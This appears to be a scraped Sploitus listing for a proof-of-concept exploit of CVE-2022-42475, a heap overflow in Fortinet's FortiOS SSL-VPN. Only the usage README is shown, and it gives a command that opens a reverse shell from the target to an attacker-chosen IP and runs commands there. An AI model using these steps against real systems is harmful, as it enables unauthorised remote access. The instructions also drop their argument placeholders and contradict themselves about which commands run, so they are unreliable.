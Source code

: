 ```yaml
---
title: Exploit for Out-of-bounds Write in Fortinet Fortios exploit
url: https://sploitus.com/exploit?id=3AFE745D-D706-5B84-B2C7-205590936BBF&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-23
fetch_date: 2025-10-04T10:20:04.476830
---
```


# Exploit for Out-of-bounds Write in Fortinet Fortios exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Out-of-bounds Write in Fortinet Fortios CVE-2022-42475

2023-03-22 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=3AFE745D-D706-5B84-B2C7-205590936BBF
# cve-2022-42475
POC code to exploit the Heap overflow in Fortinet's SSLVPN daemon

## Usage
**pip install pwntools**
To use this code, you can save it in a file, say exploit.py, and then run it with Python in the command line, passing in the required arguments. Here's an example command to run the exploit
> python exploit.py

Replace  with the hostname or IP address of the target system,  with the port number of the vulnerable service, and  with the IP address of the machine you want to receive a shell on. The remaining arguments are the commands that you want to execute, separated by spaces.

For example, if the target system has IP address 192.168.0.100, the vulnerable service is running on port 8080, and you want to execute the ls and id commands, you would run the following command:

> python exploit.py 192.168.0.100 8080 192.168.0.101 id

This will create a reverse shell connection to 192.168.0.101:31337 and execute the ls and id commands on the target system. Note that you will need to have a listener running on the specified IP address and port to receive the reverse shell. You can use tools like ncat or netcat to create a listener.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)